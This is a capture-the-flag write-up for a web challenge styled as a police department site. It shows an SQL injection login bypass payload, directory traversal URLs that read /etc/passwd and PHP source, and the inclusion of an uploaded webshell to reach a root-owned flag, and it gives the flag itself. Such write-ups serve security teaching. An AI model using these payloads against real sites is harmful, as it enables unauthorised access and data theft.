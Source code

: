 # Checking the site

The website is the Racoon City Police Department's website.

![](screenshots/1.png)

The challenge description suggests making a `tea` somehow.

# Login

There is an SQL injection on the login page. Using the standard `' OR 1=1 --` in the username and password instantly let us in.

![](screenshots/2.png)

The error messages are also verbose if the bypass is not achived instantly.

![](screenshots/3.png)

After logging in, there is a case upload and gallery functionality.

# Gallery

Trying to open anythin in the gallery results in an error message, but the `file` parameter is visible.

The paramemter is vulnerable to directory traversal, and any file can be viewed with it, like `/etc/passwd` or the `index.php` (path from SQL error message as well).

```
http://10.10.1.11:65304/pages/gallery.php?file=../../../../../etc/passwd
http://10.10.1.11:65304/pages/gallery.php?file=../../../../../var/www/html/index.php
```

![](screenshots/4.png)

It is visible that the file is not read and printed, but included, as the php is executed and not printed.

# Cases

This is a file upload functuonality. You can upload a file, usually without restriction.

The [shell.txt](workdir/shell.txt) webshell was uploaded to an unknown location.

# Exploit

The challenge description mentions `cases directory`. Using the gallery functionality, the `shell.txt` can be found by stepping 1 directory up a few times.

```
http://10.10.1.11:65304/pages/gallery.php?file=shell.txt"
http://10.10.1.11:65304/pages/gallery.php?file=../cases/shell.txt"
http://10.10.1.11:65304/pages/gallery.php?file=../../cases/shell.txt"
http://10.10.1.11:65304/pages/gallery.php?file=../../../cases/shell.txt"
```

![](screenshots/5.png)

Using the webshell, the flag can be found in [/root/Wesker.png](workdir/Wesker.png).

![](screenshots/6.png)

# Loot

The flag is inside the comment of the png.

```bash
exiftool Wesker.png
```

```
ExifTool Version Number         : 12.76
File Name                       : Wesker.png
Directory                       : .
File Size                       : 174 kB
File Modification Date/Time     : 2024:09:30 10:48:52+02:00
File Access Date/Time           : 2024:09:30 10:49:00+02:00
File Inode Change Date/Time     : 2024:09:30 10:48:52+02:00
File Permissions                : -rwxrwxrwx
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 493
Image Height                    : 408
Bit Depth                       : 8
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Pixels Per Unit X               : 3780
Pixels Per Unit Y               : 3780
Pixel Units                     : meters
Comment                         : CQ24{Th1sR3s1d3nt1snt3v1L}
Image Size                      : 493x408
Megapixels                      : 0.201
```

# Flag

CQ24{Th1sR3s1d3nt1snt3v1L}

# Source

The source was exfiltrated and can be found in [www.tar.gz](workdir/www.tar.gz).